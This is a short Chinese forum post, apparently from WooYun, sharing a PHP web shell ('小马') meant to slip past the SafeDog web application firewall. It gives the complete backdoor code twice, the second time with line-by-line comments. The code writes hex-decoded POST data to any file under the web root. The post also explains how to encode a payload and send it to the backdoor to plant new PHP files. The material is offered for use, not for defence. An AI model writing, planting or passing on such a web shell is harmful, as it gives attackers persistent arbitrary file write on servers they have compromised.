


php绕过安全狗检测的小马分享

zph | 2014-08-28 15:10

直接上代码：
  
    <?php
    $p=realpath(dirname(__FILE__)."/../").$_POST["a"];
    $t=$_POST["b"];
    $tt="";
    for ($i=0;$i<strlen($t);$i+=2) $tt.=urldecode("%".substr($t,$i,2));
    @fwrite(fopen($p,"w"),$tt);
    echo "success!";
    ?>

分析利用&过狗：

    <?php
    $p=realpath(dirname(__FILE__)."/../").$_POST["a"]; //定义$p为根目录的物理路径+$_POST["a"]的内容
    $t=$_POST["b"]; //定义$t为$_POST["b"]的内容
    $tt=""; //定义$tt为空
    for ($i=0;$i<strlen($t);$i+=2) $tt.=urldecode("%".substr($t,$i,2)); //for循环次数是$t长度/2，每循环一次就让$tt加上“%xx”这样的编码
    @fwrite(fopen($p,"w"),$tt); //写入文件地址是$p，内容是$tt
    echo "success!";
    ?>

利用方法：

将写入的内容用url编码，比如

    <?php phpinfo();?>

编码后为：

    %3C%3F%70%68%70%20%70%68%70%69%6E%66%6F%28%29%3B%3F%3E

去掉其中的%，得到：

    3C3F70687020706870696E666F28293B3F3E

然后访问后门，将POST内容改为：

    a=/111.php&b=3C3F70687020706870696E666F28293B3F3E

即可写入内容

过狗:
 

 

url:http://zone.wooyun.org/content/14846
